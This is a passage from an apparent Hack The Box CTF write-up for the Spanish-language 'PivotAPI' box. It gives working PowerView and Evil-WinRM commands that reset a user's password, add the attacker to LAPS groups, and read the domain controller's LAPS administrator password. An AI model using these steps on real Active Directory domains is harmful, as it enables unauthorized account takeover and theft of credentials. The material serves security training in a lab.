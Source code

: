 Since we basically have access to all groups in this domain, we can just add our `jari` user to both `LAPS READ` and `LAPS ADM`.&#x20;

### LAPS Read

First, we have to import a `PSCredential` object in order to execute commands as `gibdeon` from our `jari` shell:

```powershell
. .\PowerView.ps1
$pass = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
Set-DomainUserPassword -Identity gibdeon -AccountPassword $pass
$cred = New-Object System.Management.Automation.PSCredential('gibdeon', $pass)
```

Afterwards, we can add ourselves to the `LAPS READ` and `LAPS ADM` groups.&#x20;

```powershell
Add-DomainGroupMember -Identity 'LAPS ADM' -Credential $cred -Members jari
Add-DomainGroupMember -Identity 'LAPS READ' -Credential $cred -Members jari
```

Then, we can read it:

```powershell
*Evil-WinRM* PS C:\Users\jari\Documents> Get-AdmPwdPassword -ComputerName PivotAPI | fl


ComputerName        : PIVOTAPI
DistinguishedName   : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
Password            : x6IiaQd8sOmUW5Y90FNG
ExpirationTimestamp : 6/21/2023 5:05:11 PM
```

Afterwards, we can simply `evil-winrm` into the `administrador` account. **Because this box is in Spanish, the name also differs**.&#x20;

```
*Evil-WinRM* PS C:\Users\jari\Documents> net user s                                   s

Cuentas de usuario de \\

-------------------------------------------------------------------------------
0xdf                     0xVIC                    3v4Si0N
Administrador            aDoN90                   borjmz
cybervaca                Dr.Zaiuss                Fiiti
FrankyTech               Gh0spp7                  gibdeon
Invitado                 ippsec                   jari
Jharvar                  Kaorz                    krbtgt
lothbrok                 manulqwerty              OscarAkaElvis
socketz                  sshd                     StooormQ
superfume                svc_mssql                v1s0r
```
